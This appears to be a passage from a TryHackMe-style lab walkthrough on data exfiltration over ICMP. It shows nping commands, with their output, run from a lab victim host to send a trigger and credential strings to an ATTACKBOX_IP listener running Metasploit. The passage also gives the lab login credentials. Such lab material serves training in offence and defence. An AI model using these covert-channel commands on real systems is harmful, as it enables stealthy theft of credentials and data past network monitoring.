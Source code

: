 We preparedÂ icmp.thm.comÂ as a victim machine to complete the ICMP task with the required tools. From the JumpBox, log in to theÂ icmp.thm.comÂ usingÂ thm:tryhackmeÂ credentials.

We have preinstalled theÂ [nping](https://nmap.org/nping/)Â tool, an open-source tool for network packet generation, response analysis, and response time measurement. The NPING tool is part of theÂ NMAPÂ suite tools.

First, we will send theÂ BOFÂ trigger from the ICMP machine so that theÂ MetasploitÂ framework starts writing to the disk.Â 

Sending the Trigger Value from the Victim  

```markup
thm@jump-box$ ssh thm@icmp.thm.com
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "BOFfile.txt"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:23 EEST
SENT (0.0369s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=7785 seq=1] IP [ttl=64 id=40595 iplen=39 ]
RCVD (0.0376s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=7785 seq=1] IP [ttl=63 id=12656 iplen=39 ]
RCVD (0.0755s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=7785 seq=1] IP [ttl=31 id=60759 iplen=32 ]
    
Max rtt: 38.577ms | Min rtt: 0.636ms | Avg rtt: 19.606ms
Raw packets sent: 1 (39B) | Rcvd: 2 (71B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds
```

We sent one ICMP packet using theÂ npingÂ command withÂ --data-stringÂ argument. We specify the trigger value with the file nameÂ BOFfile.txt, set by default in theÂ MetasploitÂ framework. This could be changed fromÂ MetasploitÂ if needed!

Now check the AttackBox terminal. If everything is set correctly, theÂ MetasploitÂ framework should identify the trigger value and wait for the data to be written to disk.Â 

Let's start sending the required data and the end of the file trigger value from the ICMP machine.

Sending the Data and the End of the File Trigger Value  

```markup
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin:password"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:23 EEST
SENT (0.0312s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=14633 seq=1] IP [ttl=64 id=13497 iplen=42 ]
RCVD (0.0328s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=14633 seq=1] IP [ttl=63 id=17031 iplen=42 ]
RCVD (0.0703s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=14633 seq=1] IP [ttl=31 id=41138 iplen=30 ]
    
Max rtt: 39.127ms | Min rtt: 1.589ms | Avg rtt: 20.358ms
Raw packets sent: 1 (42B) | Rcvd: 2 (72B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds 
    
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin2:password2"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:24 EEST
SENT (0.0354s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=39051 seq=1] IP [ttl=64 id=32661 iplen=44 ]
RCVD (0.0358s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=39051 seq=1] IP [ttl=63 id=18581 iplen=44 ]
RCVD (0.0748s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=39051 seq=1] IP [ttl=31 id=2149 iplen=30 ]
    
Max rtt: 39.312ms | Min rtt: 0.371ms | Avg rtt: 19.841ms
Raw packets sent: 1 (44B) | Rcvd: 2 (74B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.07 seconds 
```